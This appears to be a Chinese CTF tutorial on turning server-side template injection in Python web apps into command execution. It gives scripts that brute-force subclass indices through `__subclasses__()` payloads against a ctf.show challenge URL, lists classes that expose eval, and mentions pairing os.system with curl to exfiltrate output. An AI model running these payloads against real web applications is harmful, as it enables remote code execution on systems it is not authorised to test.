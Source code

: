### 利用SSTI执行命令

可以用来执行命令的类有很多，其基本原理就是遍历含有eval函数即os模块的子类，利用这些子类中的  
eval函数即os模块执行命令。

#### 寻找内建函数eval执行命令

```
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36'}
for i in range(500):
    url = "http://3d25cf80-d891-4046-86a7-931d17efb62d.challenge.ctf.show/?name=\
        {{().__class__.__bases__[0].__subclasses__()[" + str(i) + "].__init__.__globals__['__builtins__']}}"

res = requests.get(url=url, headers=headers)
if 'eval' in res.text:
    print(i)
```

[![](assets/ssti-20220317200240-uve3txo.png)
](assets/ssti-20220317200240-uve3txo.png)

记住几个含有eval函数的类

```
warnings.catch_warnings
WarningMessage
codecs.IncrementalEncoder
codecs.IncrementalDecoder
codecs.StreamReaderWriter
os._wrap_close
reprlib.Repr
weakref.finalize
etc.
```

#### 寻找 os 模块执行命令

Python的 os 模块中有system和popen这两个函数可用来执行命令。其中`system()`函数执行命令是没有回显的，我们可以使用system()函数配合curl外带数据；`popen()`函数执行命令有回显。所以比较常用的函数为`popen()`函数，而当`popen()`函数被过滤掉时，可以使用`system()`函数代替。

首先编写脚本遍历目标Python环境中含有os模块的类的索引号

```
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36'}
for i in range(500):
    url = "http://3d25cf80-d891-4046-86a7-931d17efb62d.challenge.ctf.show/?name=\
        {{().__class__.__bases__[0].__subclasses__()[" + str(i) + "].__init__.__globals__}}"

res = requests.get(url=url, headers=headers)
if 'os.py' in res.text:
    print(i)
```
